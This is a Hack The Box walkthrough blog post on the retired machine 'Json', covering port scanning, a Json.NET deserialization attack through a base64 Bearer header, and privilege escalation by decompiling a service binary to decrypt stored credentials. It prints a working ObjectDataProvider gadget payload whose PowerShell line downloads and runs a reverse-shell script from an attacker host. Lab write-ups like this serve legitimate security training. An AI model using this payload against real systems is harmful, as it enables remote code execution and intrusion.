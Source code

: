 ```yaml
---
layout: post
title: "Json: Hack The Box Walkthrough"
date: 2020-02-16 04:00:00 +0000
last_modified_at: 2020-02-16 04:00:00 +0000
category: Walkthrough
tags: ["Hack The Box", Json, retired]
comments: true
image:
  feature: json-htb-walkthrough.jpg
  credit: xresch / Pixabay
  creditlink: https://pixabay.com/illustrations/analytics-information-innovation-3088958/
---
```


This post documents the complete walkthrough of Json, a retired vulnerable [VM][1] created by [Cyb3rb0b][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Json is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.158 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-29 06:29:49 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49153/tcp on 10.10.10.158                                 
Discovered open port 49152/tcp on 10.10.10.158                                 
Discovered open port 49156/tcp on 10.10.10.158                                 
Discovered open port 445/tcp on 10.10.10.158                                   
Discovered open port 49155/tcp on 10.10.10.158                                 
Discovered open port 5985/tcp on 10.10.10.158                                  
Discovered open port 47001/tcp on 10.10.10.158                                 
Discovered open port 21/tcp on 10.10.10.158                                    
Discovered open port 139/tcp on 10.10.10.158                                   
Discovered open port 49157/tcp on 10.10.10.158                                 
Discovered open port 80/tcp on 10.10.10.158                                    
Discovered open port 49158/tcp on 10.10.10.158                                 
Discovered open port 49154/tcp on 10.10.10.158                                 
Discovered open port 137/udp on 10.10.10.158                                   
Discovered open port 3389/tcp on 10.10.10.158                                  
Discovered open port 135/tcp on 10.10.10.158
```

Whoa. Many interesting open ports. Let\'s do one better with `nmap` scanning the discovered ports to esstablish their services.

```
# nmap -n -v -Pn -p21,80,135,139,445,3389,5985 -A --reason -oN nmap.txt 10.10.10.158
...
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2019-09-29T10:37:06+00:00; +4h00m01s from scanner time.
5985/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
Host script results:
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 4h00m00s
| nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:65 (VMware)
| Names:
|   JSON<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  JSON<20>             Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-29T10:36:58
|_  start_date: 2019-09-29T03:54:04
```

Interesting list of services. I think the creator is telling us look at the `http` service first. Here's how it looks like.

<a class="image-popup">
![87f2df7e.png](/assets/images/posts/json-htb-walkthrough/87f2df7e.png)
</a>

### JSON Deserialization Attack

During my capture of the HTTP traffic with Burp, I was pleasantly surprised to find out I could log in with the credential (`admin:admin`). It was here that I noticed two XHRs to `/api/token` and `/api/Account`.

<a class="image-popup">
![1f7a5477.png](/assets/images/posts/json-htb-walkthrough/1f7a5477.png)
</a>

The XHR to `/api/Account` had something funky going on. Send the request to Repeater. You'll notice that there's a **Bearer** header accompanying the XHR. The value is `base64`-encoded. What if we empty the value?

<a class="image-popup">
![0dd191c7.png](/assets/images/posts/json-htb-walkthrough/0dd191c7.png)
</a>

That's interesting. Now, what if we put in some strange `base64`-encoded string?

<a class="image-popup">
![b75dc5f3.png](/assets/images/posts/json-htb-walkthrough/b75dc5f3.png)
</a>

```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

Gotcha! I think I know what's going on here. There's a Json.Net deserializer that converts the **Bearer** `base64`-encoded value to a .NET object at the backend. Armed with this insight, let's see if we can send in a [ysoserial.net](https://github.com/pwntester/ysoserial.net) payload.

According to the GitHub repository of ysoserial.net, this gadget (`ObjectDataProvider`) specifically targets Json.NET. Let's see if we can use PowerShell to execute a [reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) back to us.

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':["cmd", "/c powershell /c iex (new-object net.webclient).downloadstring('http://10.10.12.99/rev.ps1')"]
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Of course, we need to `base64`-encode the above and shuttle it into the **Bearer** header.

<a class="image-popup">
![179717f8.png](/assets/images/posts/json-htb-walkthrough/179717f8.png)
</a>

And voila!

<a class="image-popup">
![0cafbc53.png](/assets/images/posts/json-htb-walkthrough/0cafbc53.png)
</a>

The file `user.txt` is at `c:\users\userpool\desktop`.

<a class="image-popup">
![7b7a4cb7.png](/assets/images/posts/json-htb-walkthrough/7b7a4cb7.png)
</a>

## Privilege Escalation

During enumeration of `userpool`'s account, I notice a suspicious-looking service FilesToSync at Program Files, along with a pair of encrypted credentials.

<a class="image-popup">
![b39c4b08.png](/assets/images/posts/json-htb-walkthrough/b39c4b08.png)
</a>

The service appears to synchronize files between two locations through FTP. Suffice to say, I grabbed a copy of `SyncLocation.exe` to my machine for further analysis.

### Decompilation of `SyncLocation.exe`

It turns out that `SyncLocation.exe` is a .Net assembly executable, which can be easily decompiled to its source code using [dnSpy](https://github.com/0xd4d/dnSpy). I\'m looking for the method to decrypt those credentials.

<a class="image-popup">
![d47d2741.png](/assets/images/posts/json-htb-walkthrough/d47d2741.png)
</a>

Using [.NET Fiddle](https://dotnetfiddle.net/), I was able to decrypt the credentials.

<a class="image-popup">
![02610a99.png](/assets/images/posts/json-htb-walkthrough/02610a99.png)
</a>

The credential is (`superadmin:funnyhtb`). Armed with these, I was able to retrieve `root.txt`.

<a class="image-popup">
![ee93a86c.png](/assets/images/posts/json-htb-walkthrough/ee93a86c.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/210
[2]: https://www.hackthebox.eu/home/users/profile/61047
[3]: https://www.hackthebox.eu/
